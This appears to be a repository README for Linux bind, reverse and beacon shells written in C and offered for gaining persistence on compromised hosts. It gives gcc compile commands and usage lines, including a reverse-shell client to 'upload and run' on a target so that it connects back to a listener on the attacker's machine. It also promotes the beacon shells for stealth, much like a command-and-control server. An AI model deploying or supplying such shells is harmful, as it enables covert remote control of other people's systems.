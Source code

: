 # Description
These are binaries that you can compile and execute to obtain persistence.
- Bind Shells
- Reverse Shells
- Beacon-like Shells

Note: Currently these shells are Linux specific meaning they most likely won't run on Windows OS. Windows shells will come in the future though!

# Compiling
To compile the binaries, simply run:
```
gcc -o server server.c && gcc -o client client.c
```

# Usage

## Bind Shells
Multi-client bind shell is a work in progress. Currently, only one client can connect at a time. 
```
./server <PORT>

rlwrap ./client <IP> <Port>
```
I also suggest using the `rlwrap` tool when executing the client. This tool allows you to scroll through previous commands and use arrow keys to edit your commands.

## Reverse Shells
Works like a standard reverse shell payload. Just upload and run. The server is the listener, so it's executed on your attacker machine.
```
rlwrap ./server <PORT>

./client <IP> <PORT>
```

## Beacon Shells
These are basically reverse shells except they have a delay in which they grab commands and you can execute binaries as you would in a C2 server. This can be helpful in stealth. HTTP based beacon shells may come in the future!
```
rlwrap ./server <PORT>

./client <IP> <PORT>
```
